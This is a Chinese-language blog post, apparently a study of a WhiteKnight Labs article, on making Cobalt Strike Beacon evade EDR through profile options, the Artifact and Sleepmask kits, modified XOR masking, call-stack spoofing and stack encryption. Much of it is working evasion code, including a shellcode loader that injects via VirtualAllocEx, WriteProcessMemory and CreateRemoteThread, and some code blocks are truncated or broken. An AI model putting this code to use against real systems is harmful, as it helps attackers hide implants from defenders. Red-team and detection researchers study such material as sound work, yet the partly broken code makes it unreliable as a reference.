









# 前言

最近在知识星球"黑客在思考和他的朋友们"看到菊花哥推荐的一篇国外博客，其内容是如何利用CoabltStrike的Profile文件来逃避EDR，讲的十分全面

本篇博客是对国外文章的学习分享，当然我也会作一些额外的补充来读者更加全面地了解和学习文章的内容

原文地址：https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/

在这篇文章中，使用的CobaltStrike版本为4.8，当然现在已经更新到4.9了，文章提到的所有工具都放在此[github](https://github.com/WKL-Sec/Malleable-CS-Profiles)中


# 内存扫描绕过

## 配置sleep_mask

Github有两款针对内存进行扫描的工具，分别是[BeaconEye](https://github.com/CCob/BeaconEye)和[Hunt-Sleeping-Beacons](https://github.com/thefLink/Hunt-Sleeping-Beacons)。通过配置Profile文件的以下选项可以轻松绕过这两款工具

```
Set sleep_mask "true"
```


当启用此选项时， Beacon 在每次 sleep 之前会混淆自己所在的内存区域，并在 sleep 结束后解开混淆，因此上述工具对其检测失效，下图是使用Hunt-Sleeping和BeaconEye对beacon运行时的检测效果

	

	

​	

## 加载artifact_kit启用堆栈欺骗

虽然`sleep_mask`选项能够绕过内存扫描，但是当我们使用ProcessHacker查看该进程的线程堆栈时，可以发现`WaitForSingleObject`函数的顶层调用是一个绝对地址，通常来说合法的程序会引用一个已导出的函数名，而不是引用一个内存地址，这就显得十分的可疑了

		


为了解决这类问题，推荐使用artifact_kit的“堆栈欺骗”功能。artifact_kit是集合在arsenal_kit中，你可以通过修改arsenal_kit.config来启用artifact kit以及设置其功能配置，要启用“堆栈欺骗”，则需将artifact_stack_spoof设置为true

	

	

以下是对artifact_technique选项值的解释：

- **dist-mailslot/**：通过mailslot为混淆的shellcode提供服务，然后有一个客户端进行读取和解码。
- **dist-peek/**：这是一个绕过技术，来自于mihi的Metasploit关于反病毒逃逸的研究。
- **dist-pipe/**：通过命名管道为混淆的shellcode提供服务，并由一个客户端进行读取和解码。
- **dist-readfile/**：此方法打开当前的artifact文件，跳到shellcode存储的位置，读取并解码它。
- **dist-readfile-v2/**：打开当前的artifact文件，从文件中读取，用payload覆盖所读内容，然后进行解码

​	

arsenal_kit.config配置完后，运行build_arsenal_kit.sh进行编译, 随后会在`dist/artifact`目录下生成对应的cna脚本, 后续需将此脚本导入CobaltStrike

> 注意：此处有个大坑，build_arsenal_kit.sh无法在中文版的linux环境中运行


注意：堆栈欺骗功能只能适用于创建exe或dll, 无法适用于生成的shellcode, 它只能通过以下方式创建

- Attacks -> Packages -> Windows Executable
- Attacks -> Packages -> Windows Executable (S)
- Attacks -> Web Drive-by -> Scripted Web Delivery (bitsadmin and exe)


将cna脚本导入后再生成beacon, 可以发现没有留下内存地址引用的痕迹, 这就是“堆栈欺骗”的作用

	


## 配置sleepmask_kit

### 遮掩内存区段、堆内存

Sleepmask机制通过CobaltStrike的Sleepmask Kit实现，该Kit提供了一套源代码，使用户能够自定义遮掩过程。在默认配置下，Sleepmask Kit提供了基本的异或遮掩，但用户可以根据需要修改这些源代码，以实现更复杂或不同的遮掩算法

作者强调了哪些代码不能被修改，比如不允许修改MASK_SIZE值，因为这是用于指定mask大小的参数，更改可能会导致Beacon无法正常运行

在sleepmask.c有一个`sleep_mask`函数，该函数通过调用`mask_sections`和`mask_heap`函数来加密Beacon的内存区段和堆内存，而两个函数在`common_mask.c`中实现

	


`mask_sections`函数通过遍历`SLEEPMASKP`结构中的区段数组, 对每个区段调用`mask_section`函数来实现加密或解密操作

`mask_section`函数用于xor加密或解密一个特定的内存区段，它接受三个参数：一个`SLEEPMASKP`指针和两个指定内存区段起始和结束位置的值

```cpp
/* Mask a beacon section
 *   First call will mask
 *   Second call will unmask
 */
void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
   while (a < b) {
      *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
      a++;
   }

    
/* Mask the beacons sections
 *   First call will mask
 *   Second call will unmask
 */
void mask_sections(SLEEPMASKP * parms) {
   DWORD * index;
   DWORD a, b;

   /* walk our sections and mask them */
   index = parms->sections;
   while (TRUE) {
      a = *index; b = *(index + 1);
      index += 2;
      if (a == 0 && b == 0)
         break;

      mask_section(parms, a, b);
   }
}
```


通过修改mask_section函数的异或加密形式，一般可以绕过绝大多数杀软的检测，前提是mask_section函数可以同时用于加密和解密，下面我介绍三种异或加密的变体形式：

```cpp
// 如下代码每隔一个字节进行异或加密

void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
    while (a < b) {
        // 只有当 a 是偶数时才执行异或操作，这样可以确保每两个字节进行一次异或操作
        if (a % 2 == 0) {
            *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
        }
        a++;
    }
}
```

```cpp
//根据字节的位置来动态生成密钥

void mask_section(SLEEPMASKP* parms, DWORD a, DWORD b) {
    while (a < b) {
        BYTE dynamic_key = (a * 37) & MASK_SIZE; // simple example of dynamic key generation
        *(parms->beacon_ptr + a) ^= dynamic_key;
        a++;
    }
}
```

```cpp
//异或加密结合自反运算，比如NOT运算

void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
   while (a < b) {
      *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
      *(parms->beacon_ptr + a) = ~(*(parms->beacon_ptr + a));  // bitwise NOT
      a++;
   }
}
```


### 修改text节属性

首先使用`setup_text_section`函数确定Beacon中`.text`节的位置，然后根据Profile文件配置中`stage.userwx`设置来决定是否掩码`.text`节，`text.mask`被设为`1`表示`.text`节应该被掩码

	

​		

接下来使用`mask_text_section`和`unmask_text_section`函数来修改`.text节`的属性



​			

### 堆栈欺骗

在`sleepmask.c`中，将`EVASIVE_SLEEP`设置为`1`，`EVASIVE_SLEEP`与传统Sleep函数不同的是, 它会在睡眠期间对内存中实现sleepmask功能的代码数据进行遮掩




这里我们将`evasive_sleep.c`注释掉, 使用`evasive_sleep_stack_spoof.c`来启用堆栈欺骗功能

	


接下来我将讲解堆栈欺骗在`evasive_sleep_stack_spoof.c`中的实施过程，首先定义了一个`STACK_FRAME`结构，用来存储每个伪造的堆栈帧的详细信息，比如目标DLL名称、函数哈希、偏移量、返回地址等等

> 堆栈帧：其实就是栈中的一个“层”，每个函数调用都会在调用堆栈上“push”一个新的堆栈帧，并在函数返回时“pop”这个堆栈帧

```cpp
typedef struct _STACK_FRAME {
    WCHAR targetDll[MAX_PATH];
    DWORD functionHash;
    ULONG offset;
    ULONG totalStackSize;
    BOOL requiresLoadLibrary;
    BOOL setsFramePointer;
    PVOID returnAddress;
    BOOL pushRbp;
    ULONG countOfCodes;
    BOOL pushRbpIndex;
} STACK_FRAME, *PSTACK_FRAME;
```


然后通过 `set_frame_info` 函数，可以为每个欲模拟的堆栈帧设置这些详细信息

```cpp
void set_frame_info(
    OUT PSTACK_FRAME frame,
    IN LPWSTR path,
    IN DWORD api_hash,
    IN ULONG target_offset,
    IN ULONG target_stack_size,
    IN BOOL dll_load)
{
    memset(frame, 0, sizeof(STACK_FRAME));
    lstrcpyW(frame->targetDll, path) ;
    frame->functionHash = api_hash;
    frame->offset = target_offset;
    frame->totalStackSize = target_stack_size;
    frame->requiresLoadLibrary = dll_load;
    frame->setsFramePointer = FALSE;
    frame->returnAddress = 0;
    frame->pushRbp = FALSE;
    frame->countOfCodes = 0;
    frame->pushRbpIndex = 0;
}
```


`set_callstack` 函数用于构建一个完整的欲模拟堆栈。这个堆栈由多个 `STACK_FRAME` 结构组成，每个结构代表堆栈中的一个帧

每个帧都被赋予特定的DLL名称和函数偏移量，这是为了在堆栈欺骗中模拟一个真实的调用堆栈，注释里提到可以使用类似ProcessHacker的工具在Windows目标系统上找到想要伪造的堆栈

此处需要注意的是，即使是相同的函数，在不同版本的系统上其在内存中的位置都可能不同

```cpp
void set_callstack(
    IN PSTACK_FRAME callstack,
    OUT PDWORD number_of_frames)
{
    DWORD i = 0;

    /*
     *  How to choose your call stack to spoof.
     *  Steps:
     *     1. Use process hacker or similar utility on a representative
     *        Windows target system to find a stack you want to spoof.
     *        Note: Different versions of windows may have different offsets.
     *     2. Use the module, function and offset information as input
     *        to the getFunctionOffset utility located in arsenal-kit/utils.
     *     3. The getFunctionOffset utility outputs information including
     *        the code to use in this function.
     *  Note: Should look for a stack with NtWaitForSingleObject at the top.
     *        Then use the information for the remaining stack frames.
     *  Note: The module extension is optional.
     *
     *  Using the getFunctionOffset helper utility to generate the code.
     *     getFunctionOffset.exe ntdll.dll TpReleasePool 0x402
     *     getFunctionOffset.exe kernel32.dll BaseThreadInitThunk 0x14
     *     getFunctionOffset.exe ntdll RtlUserThreadStart 0x21
     *
     *  Note: The number of frames can not exceed the MAX_FRAME_NUM value.
     */
    set_frame_info(&callstack[i++], L"ntdll.dll", 0, 0x550b2, 0, FALSE);
    set_frame_info(&callstack[i++], L"kernel32.dll", 0, 0x174b4, 0, FALSE);
    set_frame_info(&callstack[i++], L"ntdll", 0, 0x526a1, 0, FALSE);

    *number_of_frames = i;
}
```


使用ProcessHacker随便查看一个进程的线程堆栈, 例如此处我要模拟RtlUserThreadStart函数，其模块名和偏移量分别为`ntdll`和`0x28`

> 在操作系统中，每个线程都有特定的堆栈。堆栈是一个用于记录函数调用历史的数据结构，它存储了线程在执行过程中的函数调用顺序以及每次函数调用时的局部变量、参数和返回地址等信息

	


然后转到`arsenal-kit\utils\getFunctionOffset`目录，使用编译的`getFunctionOffset.exe`生成具体的代码示例。此处生成的代码示例为：`set_frame_info(&callstack[i++], L"ntdll.dll", 0, 0x5aa78, 0, FALSE);`




使用`calculate_return_address`函数来计算每个伪造堆栈帧的返回地址。这是通过 `GetModuleHandleW` 或 `LoadLibraryW` 获取目标DLL的基地址，然后加上偏移量来完成的

```cpp
BOOL calculate_return_address(
    IN OUT PSTACK_FRAME frame)
{
    PVOID image_base = NULL;

    // get library base address
    image_base = GetModuleHandleW(frame->targetDll);
    if (!image_base)
        image_base = LoadLibraryW(frame->targetDll);
    if (!image_base)
    {
        return FALSE;
    }

    // set the return address as image_base + offset
    frame->returnAddress = RVA(PVOID, image_base, frame->offset);

    return TRUE;
}
```


使用`calculate_function_stack_size`计算出每个函数(堆栈帧)占用的堆栈空间，这对于伪造的堆栈在解除堆栈的过程中能够正确执行很重要，以免导致程序崩溃或检测到异常行为

```cpp
BOOL calculate_function_stack_size(
    IN OUT PSTACK_FRAME frame)
{
    DWORD64 ImageBase = 0;
    PUNWIND_HISTORY_TABLE pHistoryTable = NULL;
    PRUNTIME_FUNCTION pRuntimeFunction = NULL;
    // [1] Locate RUNTIME_FUNCTION for given function.
    pRuntimeFunction = RtlLookupFunctionEntry(
        (DWORD64)frame->returnAddress,
        &ImageBase,
        pHistoryTable);
    if (!pRuntimeFunction)
    {
        return FALSE;
    }

    /*
     * [2] Recursively calculate the total stack size for
     * the function we are "returning" to
     */
    return calculate_function_stack_size_internal(
        frame,
        pRuntimeFunction,
        ImageBase);
}
```


使用`initialize_spoofed_callstack`函数初始化整个伪造的调用堆栈，此过程包含加载必要的Dll、计算函数的返回地址和堆栈空间大小

```cpp
BOOL initialize_spoofed_callstack(
    PSTACK_FRAME callstack,
    DWORD number_of_frames)
{
    PSTACK_FRAME frame = NULL;

    for (DWORD i = 0; i < number_of_frames; i++)
    {
        frame = &callstack[i];

        // [1] Calculate ret address for current stack frame.
        if (!calculate_return_address(frame))
        {
            return FALSE;
        }

        // [2] Calculate the total stack size for ret function.
        if (!calculate_function_stack_size(frame))
        {
            return FALSE;
        }
    }

    return TRUE;
}
```


使用`initialize_fake_thread_state`函数修改线程的上下文来实现堆栈欺骗，此函数会遍历伪造的堆栈，并将每个堆栈帧的信息推入线程的实际堆栈中

```cpp
void initialize_fake_thread_state(
    PSTACK_FRAME callstack,
    DWORD number_of_frames,
    PCONTEXT context)
{
    ULONG64 childSp = 0;
    BOOL bPreviousFrameSetUWOP_SET_FPREG = FALSE;
    PSTACK_FRAME stackFrame = NULL;

    push_to_stack(context, 0);

    for (DWORD i = 0; i < number_of_frames; i++)
    {
        stackFrame = &callstack[number_of_frames - i - 1];

        if (bPreviousFrameSetUWOP_SET_FPREG && stackFrame->pushRbp)
        {   
         
            DWORD diff = stackFrame->countOfCodes - stackFrame->pushRbpIndex;
            DWORD tmpStackSizeCounter = 0;
            for (ULONG j = 0; j < diff; j++)
            {
            

            context->Rsp -= (stackFrame->totalStackSize - (tmpStackSizeCounter + 0x8));
            *(PULONG64)(context->Rsp) = (ULONG64)stackFrame->returnAddress;


            bPreviousFrameSetUWOP_SET_FPREG = FALSE;
        }
        else
        {
        
            context->Rsp -= stackFrame->totalStackSize;
            *(PULONG64)(context->Rsp) = (ULONG64)stackFrame->returnAddress;
        }
        
        if (stackFrame->setsFramePointer)
        {
            childSp = context->Rsp;
            childSp += 0x8;
            bPreviousFrameSetUWOP_SET_FPREG = TRUE;
        }
    }
}
```


最后使用`CreateTimerQueueTimer`函数创建多个计时器队列定时器，为了是在不同的时间间隔执行特定的回调函数。例如，一开始会执行`spoof_stack`函数进行堆栈欺骗，过了一段时间后再恢复堆栈状态




这里我要提及一下`NtContinue`函数，其主要功能是恢复线程的上下文，其参数指向一个`CONTEXT`结构体的指针，该结构体包含线程的寄存器和其他信息

在`evasive_sleep`函数中，它通过创建一系列的计时器，这些计时器在触发时使用`NtContinue`函数来将控制权转移到先前准备好的`CONTEXT` 结构中指定的地址，这些`CONTEXT` 结构被设置为指向如 `VirtualProtect` 等函数的地址

此处还用到了`SystemFunction032`函数，该函数实现了RC4加密算法，可同时用于加密和解密，接收数据和密钥结构作为参数，配合`VirtualProtect`来实现对sleepmask代码进行加解密。

	

上述这些操作使用到了与ROP相似的思路，ROP（Return-Oriented Programming，返回导向编程）技术是一种利用已存在于程序内存中的代码片段来绕过执行流程控制和安全措施的技巧。这些代码片段通常以“gadgets”（小工具）的形式存在，它们是程序已有代码中的小片段，以返回指令结束

在evasive_sleep函数中，通过控制堆栈上的返回地址，使之指向这些Gadgets(Windows Api)，这些gadgets最终形成了攻击者的payload，从而在没有新代码注入的情况下执行恶意操作


## 加密栈内存

当Beacon在目标机器上执行C2发来的命令时，这些命令的执行结果会发送到C2服务器，为了防止被检测到，这些结果字符串在传输过程中会被加密。当beacon处于“休眠”状态时，这些命令通常会以加密的形式存储在堆或栈内存中

比如在传统的shellcode加载器中，shellcode是存储在栈内存中(函数内部或外部的变量中)


即便使用WriteProcessMemory将shellcode写入VirtualAlloc申请的堆内存里了，但它仍然存储在栈中


该[github](https://github.com/WKL-Sec/StackMask/tree/main)项目为我们提供了加密栈内存的代码，其主要函数是EncryptThread，它从堆中检索XOR密钥，然后使用VirtualQuery函数计算出堆栈的栈底和大小，最后遍历整个堆栈，并使用XOR密钥进行加密

让我们将EncryptThread函数应用在shellcodeloader上，当shellcode执行完毕后，加密存放shellcode的堆栈，

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

// 函数：加密线程
DWORD WINAPI EncryptThread(LPVOID lpParameter) {
    // 在堆上保存XOR密钥，这样在堆栈加密过程中它不会改变
    char* key = (char*)malloc(13 * sizeof(char));
    strcpy(key, "myprivatekey");
    int keyLength = strlen(key);

    // 将参数转换为堆栈指针
    unsigned char* rsp = (unsigned char*)lpParameter;

    // 获取存储shellcode的堆栈的地址范围
    MEMORY_BASIC_INFORMATION mbi;
    VirtualQuery(rsp, &mbi, sizeof(mbi));

    // 计算堆栈基址（堆栈底部）及其大小
    unsigned char* stackRegion = mbi.BaseAddress - 8192;
    unsigned char* stackBase = stackRegion + mbi.RegionSize + 8192;
    int stackSize = stackBase - rsp;

    // 打印堆栈信息
    printf("[+] The address of stack region: 0x%p\n", stackRegion);
    printf("[+] The address of stack base: 0x%p\n", stackBase);
    printf("[+] The stack size: %d bytes\n", stackSize);

    // 使用XOR密钥掩码堆栈
    unsigned char* p = (unsigned char*)rsp;
    for (int i = 0; i < stackSize; i++) {
        *(p++) ^= key[i % keyLength];
    }

    printf("[+] Stack is encrypted\n");

    // 释放密钥
    free(key);
}


int main() {
    // 在堆栈上保存一些变量
    unsigned char shellcode[] = "CobaltStrike shellcode";

    // 获取当前进程的句柄
    DWORD pnameid = GetCurrentProcessId();
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pnameid);

    // 在远程进程中分配内存并写入shellcode
    PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);

    // 在远程进程中创建一个新线程来执行shellcode
    HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

    // 关闭进程句柄
    CloseHandle(processHandle);

    getchar();

    // 获取RSP的值，表示堆栈的起始地址
    unsigned char* rsp;
    asm("movq %%rsp, %0;" : "=r" (rsp));
    printf("[+] The address of rsp is %p\n", rsp);

    // 创建一个线程来执行堆栈加密
    HANDLE hThread = CreateThread(NULL, 0, EncryptThread, rsp, 0, NULL);
    if (hThread == NULL) {
        printf("[-] Failed to create thread\n");
        return 1;
    }

    // 暂停等待用户输入
    system("pause");
    return 0;
}

```


以下是堆栈加密前和加密后的对比图：


# 静态签名绕过

## 配置obfuscate

通过配置Profile文件的如下选项，可移除Beacon堆中的绝大部分字符串

```
set obfuscate "true";
```


将Profile文件应用于CobaltStrike后，将生成的Shellcode放入[ShellcodeLoader](https://github.com/WKL-Sec/GregsBestFriend/blob/main/Clang-LLVM/GregsBestFriend.cpp)中并编译成EXE，如下是`obfuscate`选项设置前后的对比图


虽然设置了`obfuscate`选项，但使用ThreadCheck还是可以检测得到，如下图所示，可以发现msvcrt被识别为"Bad Bytes"

	


